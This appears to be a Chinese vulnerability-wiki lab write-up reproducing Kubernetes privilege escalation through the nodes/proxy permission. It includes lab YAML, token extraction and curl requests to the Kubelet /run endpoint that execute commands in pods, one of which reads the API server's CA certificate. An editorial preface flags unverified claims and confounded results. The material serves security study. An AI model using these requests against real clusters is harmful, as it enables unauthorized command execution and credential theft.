





# Kubernetes 利用 nodes proxy 子资源进行权限提升

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：持有get/create nodes/proxy权限Token；实验1.32与历史1.16.5；可访问正确API/Kubelet端点
- 证据范围：记录失败很重要，但1.32失败请求误发API Server8443的/pods或/run，而历史成功发Kubelet，不能据此归因版本修复

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 简介绕过API认证不准，仍使用有效Token，只是直接Kubelet路径/不同授权资源
- 两组端口与路径不同，是实验混杂变量
- 手工长期Token Secret并非必须绑定到SA.secrets列表才可使用；说明应区分显示计数/凭据有效性
- version误用Docker实验版本
- 正文get/create权限与81仅get WebSocket研究不同，应关联保留

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

具有 `nodes/proxy` 权限的 K8s 用户可以绕过 API server 的认证，直接和 Kubelet 进行通信，从而绕过 K8s 的准入控制和日志审计，达到权限提升的效果。

参考链接：

- https://blog.aquasec.com/privilege-escalation-kubernetes-rbac
- https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-k8s-node-proxy

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_node_proxy.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s_node_proxy` 的 pod：

```
kubectl get pods -n metarget
-----
NAME             READY   STATUS    RESTARTS   AGE
k8s-node-proxy   1/1     Running   0          78s
```




## 漏洞复现

>  Kubernetes v1.24 及以上版本，默认不再自动创建长期存储的 Token Secret，即不再创建 `<serviceaccount>-token-xxxxx`。

为了复现当前场景，我们可以手动为 `ServiceAccount` 创建一个 secret（注意，在实际环境中，该方式存在风险）：

```
kubectl apply -f k8s_node_proxy_token.yaml
```

部署完成后，查看 secret：

```
kubectl get secrets -n metarget | grep node-proxy
k8s-node-proxy-token-secret   kubernetes.io/service-account-token   3      18m
```

此时，secret 没有自动绑定到 `ServiceAccount` ，需要手动绑定：

```
kubectl patch serviceaccount k8s-node-proxy -n metarget -p '{"secrets":[{"name":"k8s-node-proxy-token-secret"}]}'
```

查看是否绑定成功，如果绑定成功，`SECRETS` 的值将由 `0` 变为 `1`：

```
kubectl get serviceaccount k8s-node-proxy -n metarget
NAME             SECRETS   AGE
k8s-node-proxy   1         18m
```




至此，secrets 问题已经解决完毕，我们开始复现漏洞。获取 Token 值并导入：

```
kubectl get secrets k8s-node-proxy-token-secret -n metarget -o jsonpath={.data.token} | base64 -d

# 导入Token
export TOKEN=<YOUR_TOKEN>
```




可以看到，虽然我们无法直接通过 `/api/v1/namespaces/<namespace>/pods/` 列出 pods，但是可以通过具有 `nodes/proxy` 权限的 Token 间接访问 kubelet API，例如 `/api/v1/nodes/<node>/proxy/pods`。

```
# 发起请求，返回403
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/api/v1/namespaces/metarget/pods/
```




```
# 发起请求，返回200
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/api/v1/nodes/minikube/proxy/pods
```




```shell
# payload in https://blog.aquasec.com/privilege-escalation-kubernetes-rbac
# FAILED with Kubernetes v1.32.0
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/pods
# curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/run/kube-system/<pod>/<container> -d "cmd=whoami"
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/run/kube-system/cilium-2vb9h/cilium-agent -d "cmd=whoami"
```

```shell
# payload in https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-k8s-node-proxy
# WORKED with Kubernetes v1.16.5
curl -k https://kubelet-ip:kubelet-port/runningpods/ -H "Authorization: Bearer $token"	#查询集群内运行的pod
curl -k https://kubelet-ip:kubelet-port/run/kube-system/<apiserver-pod>/<container-name> -H "Authorization: Bearer $token" -d "cmd=cat+/etc/kubernetes/pki/ca.crt"	# 查询kube-apiserver pod中的证书
```

## 环境复原

```
kubectl delete secret k8s-node-proxy-token-secret -n metarget
kubectl delete -f k8s_metarget_namespace.yaml
kubectl delete -f k8s_node_proxy.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_node_proxy.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_node_proxy.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-node-proxy
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-node-proxy
rules:
- apiGroups:
  - ""
  resources:
  - nodes/proxy
  verbs:
  - create
  - get
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-node-proxy
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-node-proxy
subjects:
- kind: ServiceAccount
  name: k8s-node-proxy
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-node-proxy
  namespace: metarget
spec:
  serviceAccountName: k8s-node-proxy
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

k8s_node_proxy_token.yaml

```
apiVersion: v1
kind: Secret
metadata:
  name: k8s-node-proxy-token-secret
  namespace: metarget
  annotations:
    kubernetes.io/service-account.name: k8s-node-proxy
type: kubernetes.io/service-account-token
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
